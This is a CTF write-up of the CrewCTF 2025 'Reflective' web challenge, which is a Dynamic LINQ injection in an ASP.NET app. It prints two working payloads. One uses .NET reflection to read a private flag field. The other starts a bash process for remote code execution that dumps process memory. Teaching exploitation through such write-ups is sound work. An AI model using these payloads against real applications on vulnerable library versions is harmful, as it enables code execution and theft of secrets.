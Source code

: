 ```yaml
---
title: "CrewCTF 2025 – Reflective (Web)"
date: 2025-09-22 23:30:00 +0300
categories: [CTF]
tags: [Web, CrewCTF, .NET, Reflection, DynamicLINQ, RCE, Writeup]
description: "Writeup for Reflective (Web) challenge from CrewCTF 2025 where I discussed two unintended solutions."
---
```


## TL;DR

The app had two critical issues: the `/Notes` search built a Dynamic-LINQ query by concatenating user input (`"Title.Contains(\"" + title + "\")"`) while using a vulnerable `System.Linq.Dynamic.Core v1.2.25`, which allowed injected expressions to use .NET reflection — letting an attacker traverse assemblies, read the private static `_flag` field from `BookKeeper.NotesManager`, and `Invoke` `set_Title` on a note so the flag appears in the UI; and the package also exposed an RCE vector via Dynamic-LINQ which could be used to start a process (e.g., run `dotnet-dump collect -p 1 -o dump --type Full`) and dump the .NET process memory to grep the flag.

---

**Challenge:** [Reflective](https://2025.crewc.tf/challenges#Reflective-14)<br>**Author:** [Instellate](https://instellate.xyz/)<br>**Solves**: 23

Greetings!

I participated in CrewCTF this year, one of the most challenging yet enjoyable CTFs I've done. This particular challenge offered multiple possible attack paths, but it remained one of the toughest on the board, with only 23 teams managing to solve it.

---

## Opening the Box

First thing I always do is check the Dockerfile. This challenge looked like a .NET 9 (ASP.NET Core) web app — it exposed port **8080** and ran on `mcr.microsoft.com/dotnet/aspnet:9.0`. I don’t know .NET that well, so rather than read every line of code, I spun up an instance to see how it behaved.

Two endpoints stood out quickly:

- `/Notes` — lists all notes and supports searching.
- `/Notes/create` — a simple form to create notes.

Naturally I wanted to see what drove those endpoints, so I hunted down `NotesManager.cs`. That’s where things started to get interesting.

---

## Peeking Inside the .NET Project

This code snippet is from `NotesManager.cs` file:

```csharp
public IEnumerable<Note> GetLatestNotes(string title, int page = 0)
{
    string query = "Title.Contains(\"" + title + "\")";

    return this._notes
        .AsQueryable()
        .OrderByDescending(n => n.CreatedAt)
        .Where(query)
        .Skip(page * 10)
        .Take(10);
}
```

That’s straight-up string concatenation of user input — a red flag. It turned out the `.Where(query)` uses **Dynamic LINQ**, which parses and compiles user-supplied expressions. I’d never used it before, so I went to learn how it works and which version the app used.

`Reflective.csproj` showed:

```xml
<PackageReference Include="System.Linq.Dynamic.Core" Version="1.2.25" />
```

That version is ancient compared to the current `1.6.x` line, and the [NuGet page](https://www.nuget.org/packages/System.Linq.Dynamic.Core/1.2.25) flagged vulnerabilities. Two stood out:

1. **Remote Code Execution** via Dynamic LINQ (critical). [here](https://github.com/advisories/GHSA-w65q-jcmv-28gj)
2. **Property reflection** allowing access to reflection types and static properties/fields (high). [here](https://github.com/advisories/GHSA-4cv2-4hjh-77rx)


The second one fit the challenge’s name — *Reflective* — so I dug into it. The advisory noted that versions before `1.6.0` allowed remote access to reflection types and static properties/fields from within injected expressions. That sounded promising, but I couldn’t immediately craft a working payload. Thankfully my teammate **phisher305** cracked it and shared the payload after the CTF ended — huge thanks to him. I’ve broken it down below.

---

## How the Payload Works

Here’s the payload we used:

```
") and true && it.GetType().Assembly.DefinedTypes.Where(t=>t.FullName=="Reflective.Note").First().DeclaredMethods.Where(m=>m.Name=="set_Title").First().Invoke(
 it,
 new System.Object[]{
   (
     ("").GetType().Assembly
       .DefinedTypes.Where(t=>t.FullName=="System.Reflection.Assembly").First()
       .DeclaredMethods.Where(m=>m.Name=="CreateInstance").First()
       .Invoke(
         ("").GetType().Assembly
           .DefinedTypes.Where(t=>t.FullName=="System.Array").First()
           .DeclaredMethods.Where(m=>m.Name=="GetValue").First()
           .Invoke(
             ("").GetType().Assembly
               .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
               .DeclaredMethods.Where(m=>m.Name=="GetAssemblies").First()
               .Invoke(
                 ("").GetType().Assembly
                   .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
                   .DeclaredProperties.Where(p=>p.Name=="CurrentDomain").First()
                   .GetValue(null),
                 new System.Object[]{}
               ),
             new System.Object[]{ new [] { 97 } }
           ),
         new System.Object[]{ "BookKeeper.NotesManager" }
       )
   ).GetType().Assembly
     .DefinedTypes.Where(tt=>tt.Name=="NotesManager").First()
     .DeclaredFields.Where(f=>f.Name=="_flag").First()
     .GetValue(null).ToString()
 }
)==null and Title.StartsWith("
```

Breakdown:

- **Injection entry:** The payload first closes the expected expression and injects a new Dynamic-LINQ expression (`) and true && ...`) so the attacker controls the whole `Where(...)` string — classic injection.
- **`it` is the pivot:** Inside the `Where` predicate, `it` refers to the current `Note` object. The payload starts reflection traversal from `it` (e.g. `it.GetType().Assembly.DefinedTypes`) as an entrypoint to the process’s types.
- **Bootstrapping reflection with `""`:** The `("").GetType().Assembly` trick obtains a `System.Type` (string’s type) and its `Assembly` without `typeof(...)` or hardcoded names, giving access to reflection APIs (`DefinedTypes`, `DeclaredMethods`, `DeclaredFields`, etc.).
- **Find the target assembly:** It calls `AppDomain.CurrentDomain.GetAssemblies()` and picks an assembly using `Array.GetValue(...)` with an index (your payload used `new [] { 97 }`). The index is used because the right assembly isn’t known reliably; on that instance index 97 points to the challenge assembly.
- **Create instance of target manager:** With that `Assembly`, the payload calls `Assembly.CreateInstance("BookKeeper.NotesManager")` to obtain a `NotesManager` object from the target code — the pivot to reach the `_flag`.
- **Read the `_flag` via reflection:** From the `NotesManager` type/instance it enumerates `DeclaredFields`, finds the `_flag` static field, and calls `GetValue(null)` (null because it’s static) to retrieve the flag string, then `.ToString()`.
- **Plant the flag into the UI:** The payload then finds and invokes `set_Title` on the current `it` (`Invoke(it, new object[]{ <flagString> })`), setting the note’s `Title` to the flag so the app will display it.
- **Keep the predicate valid:** Finally it appends a boolean expression (e.g. `Title.StartsWith("...")`) so the `Where(...)` remains a valid predicate and the modified row is returned/rendered. In short: read the flag by reflection, write it into a visible `Note` field, and return a row so the UI shows the flag.

```
crew{dotnet_reflection_is_weird_is_it_not__why_do_i_care}
```

---

## Another Unintended Route

From the CrewCTF Discord I learned other unintended solutions relying on the same vulnerabilities mentioned earlier.

One neat approach (shoutout to **siunam321**) used a Dynamic-LINQ injection to achieve RCE, then invoked `dotnet-dump` from the container to dump the .NET process memory (PID 1) and grep the flag from the memory dump. The payload essentially kicked off a shell/Process start that ran `dotnet-dump collect -p 1 -o dump --type Full`. Once the dump finished, they inspected it and found the flag in plaintext.

 ```
 ") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"./dotnet-dump collect -p 1 -o dump --type Full"".Split(";".ToCharArray())).GetType().ToString() == ("
 ```

This route leaned on an RCE path for the library (CVE-style PoC) rather than the reflection-only path we used to write the flag directly into a `Note` title. Both are valid — just different flavors of exploitation.

---

## Final Thoughts

This challenge was an absolute blast. It introduced me to Dynamic LINQ and a weird corner of .NET reflection I hadn’t seen before. The combination of reflection APIs, an old vulnerable library, and a tiny UI surface made for a satisfying puzzle: once you spot the injection point, the rest is creative traversal and a bit of trial-and-error.

Big thanks to my teammate **phisher305** for the payload and to everyone in the discord who discussed alternate approaches. I learned a ton and can’t wait to play with these ideas further.

I still haven’t managed to get the intended solution in a way I can write about properly — hopefully I’ll be able to later.

Thanks for reading!